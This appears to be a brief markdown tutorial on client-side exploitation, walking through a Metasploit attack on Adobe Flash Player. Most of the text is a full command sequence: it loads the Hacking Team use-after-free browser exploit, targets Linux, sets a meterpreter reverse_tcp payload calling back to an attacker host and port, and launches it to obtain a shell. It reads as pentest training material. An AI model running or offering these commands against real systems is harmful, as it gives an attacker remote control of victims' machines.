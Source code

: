 # Client Side Exploitation

* Adobe Flash Player

is software used to stream and view video,audio on a computer.


* Flow 

We will exploit Adobe Flash Player to get shell.

1- Using Metasploit module

> use exploit/multi/browser/adobe_flash_hacking_team_uaf

> set URIPATH  test       (The URL path ex:http://192.168.x.x/PATH)

> set TARGET Linux

> set PAYLOAD linux/x86/meterpreter/reverse_tcp

> set LHOST 192.168.x2.x2

> set LPORT 4444

> exploit

You will find the meterpreter session is started.







